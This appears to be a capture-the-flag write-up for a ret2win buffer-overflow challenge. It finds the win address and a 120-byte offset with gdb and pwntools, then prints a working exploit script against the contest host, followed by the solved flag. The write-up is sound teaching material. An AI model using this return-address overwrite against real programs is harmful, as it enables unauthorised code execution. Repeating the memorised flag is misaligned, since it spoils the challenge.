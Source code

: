 <img src="https://github.com/raul-dunca/assets/blob/main/.images_CyberStudents-advent-of-ctf2024/day10_description.png">



This was a classical ret2win, using dogbolt I could see the win and main functions:
<img src="https://github.com/raul-dunca/CyberStudents-advent-of-ctf2024/blob/main/.assets/day_10_info.png">

Here it can be seen that the memset function sets the buffer of var_78 to 100 bytes and then the read function reads 256 bytes, so here is a buffer overflow. And since there is a win function, I need to somehow call it. It can be also seen that the return address of the main function is printed in the end, if I could overwrite it to the address of the win function, the main function will go to the win function, thus executing it. First, I need to find the address of the win function. I used gdb with the `info functions` command, it can be seen:

```bash
0x00000000004011f6  win
```

Now, the only information needed is the offset, basically we need 100 bytes to fill var_78 + some bytes to overwrite the main return address. For an easy way to find the whole offset I used:

```python
from pwn import *

payload=cyclic(200)
print(payload)
```

Which generates a payload of 200 bytes and I gave it as input to the binary file and use gdb to look at the value of RBP, which was  `0x6261616562616164 ('daabeaab')`. Then I found the offset using: 

```python
from pwn import *

print(cyclic_find(0x6261616562616164))
```

Which prints 112 and I need to add 8 bytes (the size of RBP itself), so the total offset is 120. Finally, I created the exploit script:

```python
from pwn import *

target_host = 'ctf.csd.lol'
target_port =  4003

win_address = 0x4011f6

payload = b'A' * 120
payload += p64(win_address)

conn = remote(target_host, target_port)
conn.recvuntil("enter your wish:")
conn.sendline(payload)
conn.interactive()
```

`csd{Br0uGH7_t0_YOU_8y_W15H_D0t_CoM}`
